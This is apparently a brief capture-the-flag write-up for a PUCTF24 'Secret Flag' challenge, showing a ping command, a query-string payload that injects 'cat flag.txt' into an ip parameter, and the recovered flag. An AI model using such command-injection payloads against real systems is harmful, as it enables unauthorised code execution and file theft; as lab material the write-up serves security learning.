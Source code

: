 ## Secret Flag 秘旗

ping -c 2 127.0.0.1
?times=1&ip="127.0.0.1&&cat flag.txt"

PUCTF24{Rem0te_C0de_Execut10n_exp101t_thr0ugh_c0mmand_1nject10n}